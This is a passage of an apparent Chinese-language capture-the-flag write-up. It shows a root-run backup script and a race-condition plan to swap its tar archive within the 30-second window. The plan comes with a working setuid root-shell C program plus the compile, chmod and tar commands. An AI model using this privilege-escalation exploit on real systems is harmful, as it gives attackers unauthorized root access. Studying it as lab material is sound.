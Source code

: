 ```bash

#比较解压的/var/tmp/check和当前/var/www/html的文件差异，
#将不同的文件列表写入/var/backups/onuma_backup_test.txt，
#如果相同，将/var/tmp/隐藏的压缩文件保存为/var/backups/onuma-www-dev.bak，并删除check目录
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi

```

整个脚本的执行：

```bash
1.onuma用户将web目录压缩备份，
2.30秒后由root用户解压到/var/tmp/check目录，检查一下web目录有没有改动，记录一下改动的文件。没有改动就保存压缩包到备份目录

```

利用思路：

```bash
由于我们现在是onuma，压缩的文件是保存到/var/tmp/
在/usr/sbin/backuperer执行压缩文件步骤的时候，在30秒内把压缩文件替换为包含exp脚本的压缩包，30秒后root解压被替换过的压缩包，root解压出来的exp脚本权限提升为root，然后onuma执行exp脚本即可提权到root
```

编译exp.c

```bash
#include <unistd.h>
int main(void) 
{ 
setregid(0,0); 
setreuid(0,0); 
execl("/bin/sh", "sh", 0); 
}
```

```bash
#编译
gcc -m32 exp.c -o exp
#添加suid位权限(第一位)，setuid: 设置使文件在执行阶段具有文件所有者的权限
chmod 7777 exp

#构造web目录
mkdir -p var/www/html
cp exp /var/www/html
#打包
tar -zcvf exp.tar.gz var
```
